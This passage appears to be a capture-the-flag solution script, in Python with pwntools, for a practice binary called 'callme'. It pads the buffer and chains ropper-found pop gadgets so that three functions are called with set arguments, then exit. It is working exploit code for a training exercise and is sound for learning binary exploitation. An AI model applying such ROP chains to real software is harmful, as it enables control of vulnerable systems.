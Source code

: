 ```python
param3=0xd00df00dd00df00d

"""
===========================================
ROP chain:
============================================
pop rdi; pop rsi; pop rdx; ret;
params
callme_one
--------------------------------------------
pop rdi; pop rsi; pop rdx; ret;
paramas
callme_two
-------------------------------------------
pop rdi; pop rsi; pop rdx; ret;
params
callme_three
-------------------------------------------
pop rdi; ret
0
exit
"""

# @plt
callme_one=0x400720
callme_two=0x400740
callme_three=0x4006f0

# @usefulFunction: call exit
call_exit=0x400937

# $ ropper --file=callme --search pop
pop_params_ret=0x40093c
pop_rdi_ret=0x4009a3

# $ ropper --file=callme --search ret
ret=0x4006be

padding='A'*0x28

payload=flat([
    padding.encode(), 
    ret,            # stack aligment
    pop_params_ret,
    param1, param2, param3,
    callme_one,
    pop_params_ret,
    param1, param2, param3,
    callme_two,    
    pop_params_ret,
    param1, param2, param3,
    callme_three,
    pop_rdi_ret,
    0x0,
    call_exit
    ])

### Send the payload ###

io=process([exe])
#io=gdb.debug([exe],gdbscript=gdbinit)
io.sendline(payload)
io.recvall()
```